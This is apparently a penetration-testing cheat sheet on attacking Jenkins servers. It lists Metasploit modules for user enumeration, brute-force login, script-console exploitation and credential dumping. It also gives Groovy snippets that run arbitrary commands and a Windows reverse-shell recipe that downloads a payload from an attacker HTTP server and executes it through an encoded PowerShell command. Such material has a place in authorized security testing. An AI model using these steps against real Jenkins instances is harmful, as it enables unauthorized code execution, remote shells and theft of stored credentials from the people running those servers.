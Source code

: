 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like \(_/people_ or _/asynchPeople_, this lists the current users\) you can use:

```text
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```text
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path for **usernames**.

## Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used \(even **usernames as passwords** or **reverse** usernames as passwords\).

```text
msf> use auxiliary/scanner/http/jenkins_login
```

## Exploiting Vulnerabilities

{% embed url="https://github.com/gquere/pwn\_jenkins" caption="" %}

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project \(obviously this will only work if you user is allowed to create a new project\).

1. Create a new project \(Freestyle project\)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell \(can be obtained using _unicorn_\). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

\*\*\*\*

Go to the projects and check **if you can configure any** of them \(look for the "Configure button"\):

![](../../.gitbook/assets/image%20%28228%29.png)

Or **try to access to the path** _**/configure**_ in each project \(example: /_me/my-views/view/all/job/Project0/configure_\).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](../../.gitbook/assets/image%20%2887%29.png)

Click on **Save** and **build** the project and your **command will be executed**.  
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ \(triple double quotes\) to execute the payload.

**Another useful groovy script** is \(replace \[INSERT COMMAND\]\):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```text
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```text
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" caption="" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" caption="" %}

